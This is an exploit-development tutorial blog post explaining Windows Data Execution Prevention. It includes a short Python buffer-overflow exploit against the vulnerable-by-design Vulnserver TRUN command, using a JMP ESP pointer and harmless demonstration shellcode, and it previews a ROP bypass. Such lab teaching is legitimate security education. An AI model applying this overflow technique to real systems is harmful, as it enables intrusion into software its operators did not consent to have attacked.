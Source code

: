 :slug: understanding-dep/
:date: 2020-08-21
:category: attacks
:subtitle: Understanding DEP
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Liam Tucker on Unsplash
:description: This post will show how the Data Execution Prevention (DEP) security mechanism works and what are the implication for exploit development.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/cVMaxt672ss

= Understanding DEP

In past blog entries, I've written a good amount of articles dealing
with Windows exploit development, link:../tags/vulnserver/[most of them]
attacking Vulnserver, a vulnerble-by-design (`VbD`) server that is designed
for such a noble endeavor. I also wrote a couple of articles creating an
exploit for link:../exploiting-quickzip/[QuickZIP] and
link:../exploiting-netscanner/[MiTec Net Scanner]. All of those exploits
relied on the ability to execute instructions written on the stack of the
process.

However, modern CPUs have a mechanism that allow the OS to prevent that.

In this article, we will introduce that protecion and in forthcoming articles
we will check a way to bypass it, called `ROP` (Return-Oriented Programming).

== No-Execute bit

The protection on the CPUs is known as the NX (No-Execute) bit. The OS will
use such capability to mark some memory areas (remarkably the stack) as
non-executable and thus, preventing common buffer overflow exploits like the
ones we've used so far. Let's clarify that.

In `x86` architecture, when a function is called, a function frame is created
on the stack. This is a common function stack frame distribution on memory:

.Common function stack frame
[source,text]
----
.________._________._________._________._____________.
 vuln_var Saved EBP Saved EIP Func args Rest of stack
----

On a simple buffer overflow, when we write past the `vuln_var` size,
we can overwrite anything that's below the stack, including the `Saved EBP`
and `Saved EIP`. When the vulnerable function returns, it will get the
`Saved EIP` value back from the stack and use it as the next instruction
pointer. That's why we usually overwrite the `Saved EIP` with a pointer
to a `JMP ESP` instruction that allow us to redirect execution back to the
stack on where we put the shellcode.

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAA AAAAAAAAA <pointer to JMP ESP>   Shellcode
.________._________.____________________._____________.
 vuln_var Saved EBP       Saved EIP       Rest of stack
----

For example, let's take a look a this exploit:

[source,python]
----
#!/usr/bin/env python3
#
# Simple DEP check

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 625011AF   .  FFE4                  JMP ESP
    struct.pack('<L', 0x625011AF) +
    b'\x31\xc0' +       # xor eax,eax
    b'\x04\x08' +       # add al,0x8
    b'\x90' +           # nop
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This a simple exploit that will take advantage of a buffer overflow
vulnerability of the Vulnserver `TRUN` command. link:../vulnserver-trun/[Here]
you can see the full writeup of how to find that vulnerability using fuzzing
and link:../reversing-vulnserver/[here] using reverse engineering.

This version of the exploit will overflow the vulnerable variable this way:

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAA AAAAAAAAA \xaf\x11\x50\x62  \x90\x08\x04\xc0\x31
.________._________._________________.____________________.
 vuln_var Saved EBP     Saved EIP          Shellcode
----

On where:

. 2006 `A` are added to trigger the overflow.
. `0x625011AF` is a pointer to a `JMP ESP` instruction and will be placed on
`Saved EIP`.
. When the vulnerable function returns, it will execute the `JMP ESP`
instruction.
. `ESP` is now pointing to our shellcode, that in this case does:
.. `xor eax eax` -> Zero-out `EAX` register
.. `add al,0x8` -> Make `EAX` = `0x00000008`
.. `nop` -> Does nothing

If you want to see how to get the `JMP ESP` address, you can check
link:../vulnserver-trun/[this post].

Let's see it in action:

image::exec-stack1.gif[Executing code on the stack]

As you can see, we were able to execute the instructions on our shellcode that
we placed on the stack as expected.

== Enabling DEP

On modern Windows versions, the NX bit of the CPU can be used by using a
feature called Data Execution Prevention or `DEP`. It can be enabled with
the following instructions:

* Press the `Windows` key and search for `View advanced system settings`.
* In the resulting window, click on tab `Advanced`:

image::enable-dep1.png[Enabling DEP]

* Then in `Performance` click on `Settings`.
* Move to the tab `Data Execution Prevention`:

image::enable-dep2.png[Enabling DEP]

* The default setting is `Turn on DEP for essential Windows programs...`, but
to turn it on for every application, you must select
`Turn on DEP for all programs...`.
* Apply and restart the PC.

*WARNING:* When you change this value and you have `Bitlocker` enabled, you
will be asked to enter the `Bitlocker` recovery key after the reboot. *If you
don't have that information, please don't change the DEP value or your system
will become unusable.*

With that in place, we can check again our exploit to see if DEP really
prevents the execution of the instructions of our shellcode.

*NOTE:* We will talk about Hardware-based DEP which uses the NX bit of the CPU
to mark memory regions as non-executable. Software-based DEP will only prevent
SEH-based overflows and it's not in the scope of this article. You can
get more information on SEH-based exploits link:../vulnserver-gmon/[here].

== Executing shellcode with DEP enabled

Now, after enabling DEP system-wide, let's execute our exploit again:

image::exec-stack2.gif[DEP enabled]

Several things have happened:

. The overflow is performed.
. The `Saved EIP` value was overwritten successfully with the pointer
to `JMP ESP`.
. The `JMP ESP` instruction is performed and execution flow is rediected to
the stack on where our shellcode is placed.
. However, when it tries to execute the first instruction on the shellcode
(`xor eax,eax`), an `Access violation` exception is triggered, which means
that it was trying to execute code on a memory region marked as non-executable.
DEP worked.

== Bypassing DEP

We cannot now execute instructions placed on the stack, but we control the
execution flow of the application. The stack, however is a place where
the application (and therefore, the exploit) can read and write data and
by controlling both (the execution flow and the stack), we can do wonders.

In the previous example, we couldn't execute the instructions on the
shellcode, but we *were able* to execute a single instruction: `JMP ESP`.
We did that by placing the *pointer* to the instruction in the right place.

We can use that to run arbitrary code, without executing a single instruction
on the stack. Let's welcome Return-Oriented Programming.

== Conclusions

This article show a mechanism created to prevent the exploitation of
buffer overflow vulnerabilities. DEP surely leaves behind common exploits.
However, in the next article we will see how to bypass `DEP` using
Return-Oriented Programming and then we can create a fully working exploit
that triggers a reverse TCP shell on a DEP-enabled application.
